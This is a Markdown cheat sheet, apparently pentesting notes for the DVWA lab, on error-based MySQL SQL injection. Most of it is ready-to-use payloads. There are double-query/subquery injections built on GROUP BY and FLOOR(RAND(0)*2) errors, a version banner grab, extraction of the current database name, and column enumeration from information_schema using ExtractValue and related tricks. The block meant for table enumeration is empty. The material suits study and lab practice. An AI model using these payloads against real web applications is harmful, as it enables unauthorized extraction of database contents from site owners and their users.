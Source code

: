 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - error-based
  - enumeration-and-discovery
  - dvwa
---
```

# 01 - Database Reconnaissance

## 1.1 - SubQuery (Double Query) Injection

Subquery injection is often referred as double injection. It is the second method other than union technique. In contrast, the SQL query is more difficult to read yet it can serve as alternative to retrieve data.

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),0x3a,FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(':', ':', (<SQL_Payload>),':', ':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a, 0x3a, (<SQL_Payload>),0x3a, 0x3a, FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

## 1.2 - Enumeration and Discovery

### 1.2.1 - Banner Grab

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT VERSION()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

### 1.2.2 - Current Database

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT DATABASE()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

### 1.2.3 - Schema Database Enumeration

Let's enumerate the tables.

```

```

Let's enumerate the columns.

```
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2)))

(@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);

AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));-- Available in MySQL 5.1.5

AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- Fixed in MySQL 5.1

AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b) a)

AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b USING (SOME_EXISTING_COLUMN)) a)
```

---
## References

### Security Idiots

- [SecurityIdiots: Error-Based Injection Subquery Injection](https://securityidiots.com/Web-Pentest/SQL-Injection/Error-Based-Injection-Subquery-Injection.html)

### Videos

- [SQL Injection Master Course - Lecture 16 - Important 26 Commands for Advance SQL Injection](https://www.youtube.com/watch?v=Be60oqlFYHw)

- [SQL Injection Master Course - Lecture 17 - Double Query Injection](https://www.youtube.com/watch?v=QFy1Ejn-5mU)